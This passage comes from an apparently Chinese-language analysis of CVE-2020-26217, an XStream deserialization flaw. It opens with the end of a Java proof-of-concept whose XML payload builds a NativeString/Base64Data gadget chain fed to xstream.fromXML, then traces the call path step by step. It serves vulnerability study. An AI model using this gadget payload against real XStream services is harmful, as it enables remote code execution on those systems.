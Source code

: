 ```
                "                    <name>start</name>\n" +
                "                  </filter>\n" +
                "                  <next/>\n" +
                "                </iterator>\n" +
                "                <type>KEYS</type>\n" +
                "              </e>\n" +
                "              <in class='java.io.ByteArrayInputStream'>\n" +
                "                <buf></buf>\n" +
                "                <pos>0</pos>\n" +
                "                <mark>0</mark>\n" +
                "                <count>0</count>\n" +
                "              </in>\n" +
                "            </is>\n" +
                "            <consumed>false</consumed>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```

## 0X04CVE-2020-26217分析

根据map的原理可知：map在put key操作时需要获取key的hash值。因此程序调用了jdk.nashorn.internal.objects.NativeString的hashCode方法，见下图

![image-20201228152711083](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228152711083.png)

![image-20201228152850078](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228152850078.png)

从上图可见，程序调用了getStringValue方法，我们跟入这个方法，见下图

![image-20201228173247057](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228173247057.png)

在这个方法中，程序将判断this.value是否为String实例，并尝试调用this.value.toString方法

经过上文对poc的分析，此时的this.value其实就是</jdk.nashorn.internal.objects.NativeString>元素中的value子元素值，攻击者可以通过xml中NativeString元素的value子元素控制。在官方给出的poc中，将value值构造为com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data类。

![image-20201228153300997](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228153300997.png)

因此，此时this.value为com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data。程序调用Base64Data类的toString方法，见下图
